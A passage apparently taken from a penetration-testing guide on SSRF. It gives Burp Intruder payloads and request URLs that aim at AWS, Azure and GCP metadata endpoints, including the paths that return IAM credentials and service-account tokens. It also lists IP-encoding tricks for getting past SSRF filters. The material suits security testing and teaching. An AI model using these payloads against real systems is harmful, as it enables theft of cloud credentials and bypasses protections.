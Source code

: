 1. Use the Burp Collaborator client to generate unique external domains
2. Configure scan rules to test specifically for SSRF patterns
3. Use Burp's active scanner with SSRF-specific profiles

```
# Example Burp Intruder payload positions
GET /api/fetch?url=§http://collaborator-payload.burpcollaborator.net§ HTTP/1.1
Host: vulnerable-app.com
```

### Cloud Environment Testing Considerations

When testing for SSRF in cloud environments, specifically target cloud metadata endpoints:

#### AWS

```
https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/
https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

#### Azure

```
https://vulnerable-app.com/fetch?url=http://169.254.169.254/metadata/instance
https://vulnerable-app.com/fetch?url=http://169.254.169.254/metadata/instance/compute?api-version=2021-01-01&format=json
```

#### Google Cloud Platform

```
https://vulnerable-app.com/fetch?url=http://metadata.google.internal/computeMetadata/v1/
https://vulnerable-app.com/fetch?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

Remember to add appropriate headers for certain cloud providers:
- For Azure: `Metadata: true`
- For GCP: `Metadata-Flavor: Google`

## Bypassing SSRF Protections

### Obfuscation Techniques

When basic SSRF protections are in place, try these bypass techniques:

#### 1. IP Address Obfuscation

Convert IPs to decimal, octal, or hexadecimal formats:

```
# Different ways to represent 127.0.0.1
http://2130706433/
http://0x7f000001/
http://017700000001/
http://0177.0.0.01/
```
